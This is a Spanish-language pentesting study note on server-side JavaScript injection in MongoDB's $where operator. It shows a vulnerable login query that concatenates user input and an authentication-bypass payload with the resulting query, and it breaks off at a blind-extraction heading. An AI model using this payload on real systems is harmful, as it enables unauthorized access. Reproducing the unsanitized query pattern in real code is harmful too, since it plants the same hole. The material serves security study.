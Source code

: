## Server Side Javascript Injection (SSJI)

Un tipo de inyección exclusivo de NoSQL es `JavaScript Injection`. Aquí es cuando un atacante puede hacer que el servidor ejecute JavaScript arbitrario en el contexto de la base de datos. La inyección de JavaScript puede, por supuesto, ser en banda, ciega o fuera de banda, según el escenario.

Un ejemplo rápido de esto sería un servidor que utilizó la `$where` consulta para verificar las combinaciones de nombre de usuario/contraseña:

```javascript
...
.find({$where: "this.username == \"" + req.body['username'] + "\" && this.password == \"" + req.body['password'] + "\""});
...
```

el operador `$where` admite **string Javascript** o **funcion Javascript** para una evaluacion en la consulta:

![[Pasted image 20230502173635.png]]

- [https://www.mongodb.com/docs/manual/reference/operator/query/where/](https://www.mongodb.com/docs/manual/reference/operator/query/where/)

ejemplo con funcion:

```javascript
...
.find({$where: function(){return (this.username==this.password)}});
...
```

como la entrada del usuario se concatena a la consulta sin sanitizarla, podriamos colocar un payload como este para evadir la autenticacion:

```javascript
" || true || ""=="
```

dejando la consulta asi:

```javascript
db.users.find({$where: 'this.username == "" || true || ""=="" && this.password == "" || true || ""==""'})
```

retornando `True` y evadiendo la autenticacion. Como es codigo JS podemos probar desde la consola del navegador:

![[Pasted image 20230502174916.png]]

con el payload vemos que hacemos cambiar el resultado del codigo Javascript.

### Blind Data Extraction

Al igual que en **NoSQL Injection** podemos descubrir informacion a traves del siguiente payload y fuzzear con intruder:
